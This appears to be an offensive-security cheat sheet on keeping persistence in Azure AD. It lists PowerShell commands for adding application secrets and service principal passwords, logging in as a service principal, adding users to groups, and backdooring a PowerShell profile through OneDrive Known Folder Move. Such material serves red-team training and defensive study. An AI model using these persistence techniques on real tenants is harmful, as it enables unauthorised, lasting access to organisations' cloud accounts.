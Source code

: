 # Azure AD - Persistence

## Add Secrets to Application

* Add secrets with [lutzenfried/OffensiveCloud/Add-AzADAppSecret.ps1](https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/Add-AzADAppSecret.ps1)

    ```powershell
    PS > . C:\Tools\Add-AzADAppSecret.ps1
    PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose
    ```

* Use secrets to authenticate as Service Principal

    ```ps1
    PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
    PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
    PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
    ```

## Add Service Principal

* Generate a new service principal password/secret

    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```

## Add User to Group

```ps1
Add-AzureADGroupMember -ObjectId <group_id> -RefObjectId <user_id> -Verbose
```

## PowerShell Profile Backdoor Using KFM

OneDrive for Business Known Folder Move (KFM) is a feature in Microsoft OneDrive for Business that enables users and organizations to automatically redirect the contents of key Windows user folders; Desktop, Documents, and Pictures from their local PC to OneDrive.

A PowerShell profile is a script file that loads whenever you start a new PowerShell session (such as opening PowerShell or Windows Terminal). Users and administrators often customize their profiles to set aliases, environment variables, functions, or pre-load modules.

**Requirements**:

* `Files.ReadWrite.All` privilege

**Methodology**:

Known Folder Move moves the user's Documents (and/or Desktop, Pictures) folder to OneDrive for Business, typically syncing:

```ps1
C:\Users\<username>\Documents → C:\Users\<username>\OneDrive - <TenantName>\Documents
```

This means the PowerShell profile file (`Documents\PowerShell\Microsoft.PowerShell_profile.ps1`) will now be synced to OneDrive.

Push a malicious PowerShell profile at `$HOME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1`.

## References

* [High-Profile Cloud Privesc - Leonidas Tsaousis - July 15, 2025](https://labs.reversec.com/posts/2025/07/high-profile-cloud-privesc)
* [Maintaining Azure Persistence via automation accounts - Karl Fosaaen - September 12, 2019](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)

